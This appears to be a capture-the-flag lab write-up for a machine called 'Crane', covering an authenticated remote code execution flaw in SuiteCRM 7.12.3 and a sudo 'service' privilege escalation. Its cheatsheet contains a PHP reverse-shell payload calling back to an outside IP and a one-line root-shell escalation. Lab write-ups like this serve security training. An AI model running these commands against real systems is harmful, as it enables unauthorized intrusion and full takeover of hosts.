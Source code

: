 # Crane \[Inter]

## Report

SuiteCRM version 7.12.3 is vulnerable to authenticated RCE via scheduler including PHP files. user 'www-data' can run 'service' as sudo and spawn a new shell as root.

## Cheatsheet

```
python3 exploit.py -h http://192.168.167.146 -u 'admin' -p 'admin' --payload "php -r '\$sock=fsockopen(\"192.168.45.234\", 8000); exec(\"/bin/sh -i <&3 >&3 2>&3\");'"
sudo service ../../bin/sh
```

## Loot

### Enumeration

192.168.167.146

#### 3306

MySQL not accepting connections from our IP (unauthorized tho)

No connections from www-data within localhost either

#### 80

SuiteCRM Version 7.12.3

Sugar Version 6.5.25 (Build 344)

{% code title="userlist" %}
```
admin
chris
jim
tom
sally
sarah
will
```
{% endcode %}

{% code title="robots.txt" %}
```
User-agent: *
Disallow: /

User-agent: Googlebot
Allow: /ical_server.php
```
{% endcode %}

### Attack Vectors

Yeah about that

### PrivEsc

```
User www-data may run the following commands on localhost:
(ALL) NOPASSWD: /usr/sbin/service

Cronjob via linpeas.sh
cd /var/www/html; php -f cron.php > /dev/null 2>&1

Interesting file
/usr/bin/gettext.sh
```

### Creds

None

### Proof

None
